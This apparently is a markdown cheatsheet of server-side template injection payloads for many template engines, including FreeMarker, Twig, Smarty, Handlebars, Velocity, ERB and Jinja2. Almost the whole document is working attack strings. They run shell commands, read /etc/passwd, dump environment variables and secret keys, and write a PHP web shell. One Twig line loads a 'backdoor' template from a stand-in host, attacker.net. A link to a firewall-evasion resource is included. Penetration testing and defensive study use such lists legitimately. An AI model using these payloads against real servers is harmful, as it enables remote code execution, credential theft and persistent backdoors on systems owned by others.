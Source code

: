 (insert good title here)
================

- [Cheatsheets](#Cheatsheets)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

##### Polyglot:
```
${{<%[%'"}}%\
```

##### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
##### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
##### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
##### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
##### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
##### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
##### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
##### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
##### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
##### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
##### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
##### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
##### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
